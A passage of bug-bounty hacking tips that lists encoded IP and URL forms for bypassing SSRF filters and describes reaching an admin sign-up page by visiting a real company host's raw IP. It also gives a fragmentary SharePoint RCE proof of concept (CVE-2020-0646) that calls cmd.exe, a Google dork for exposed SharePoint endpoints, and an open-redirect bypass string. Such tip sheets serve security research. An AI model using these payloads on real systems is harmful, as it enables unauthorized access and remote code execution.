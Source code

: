 ```text
http://②⑧⑤②⓪③⑨①⑥⑥:80/
http://④②⑤｡⑤①⓪｡④②⑤｡⑤①⓪:80/ 
http://⓪②⑤①。⓪③⑦⑥。⓪②⑤①。⓪③⑦⑥:80/
http://0xd8.0x3a.0xd6.0xe3
http://0xd83ad6e3
http://0xd8.0x3ad6e3
http://0xd8.0x3a.0xd6e3
http://0330.072.0326.0343
http://000330.0000072.0000326.00000343
http://033016553343
http://3627734755
http://%32%31%36%2e%35%38%2e%32%31%34%2e%32%32%37
http://216.0x3a.00000000326.0xe3
http://localtest.me
http://newyork.localtest.me
http://mysite.localtest.me
http://redirecttest.localtest.me
http://sub1.sub2.sub3.localtest.me
http://bugbounty.dod.network
http://spoofed.burpcollaborator.net
```

## Bug Bounty Tips 
1. https://site.com/admin/sign_up  ---- 403 Forbidden
2. http://site.com resolves to IP: 1.2.3.4
3. https://1.2.3.4/admin/sign_up  ----  200 OK
4. Signed up there with having all the admin privileges.
Since Oppo is now a public program on **HackerOne**, please check out the following domain.
-> https://pre-partner.realme.com -- 403 Forbidden
-> It resolves to IP: 13.127.121.140
-> https://13.127.121.140  --- 200 OK
***Really a good tip kudos to [umsvisha](https://twitter.com/umsvishal)***

## CVE-2020-0646 SharePoint RCE

PoC
```text
CallExternalMethodActivity x:Name="foo" 
....System.Diagnostics.Process.Start("cmd.exe",
```
![img](https://pbs.twimg.com/media/Eq8wSJkVgAAvRJq?format=png&name=medium)
**Google Dork**
```text
.sharepoint.com/_vti_bin/webpartpages/asmx -docs -msdn -mdsec
```
***https://www.mdsec.co.uk/2020/01/code-injection-in-workflows-leading-to-sharepoint-rce-cve-2020-0646/?fbclid=IwAR0b4QZxdQKVYN-ES62rdt9yN5MMzfgpK7DkdkbIq44Flm-ODiuqzeIglUQ***

## Redirect bypass
```text
/?ref_url=https://abc.com\attack.com/../../../
```
***https://twitter.com/jae_hak99/status/1345210080422072321?s=20***
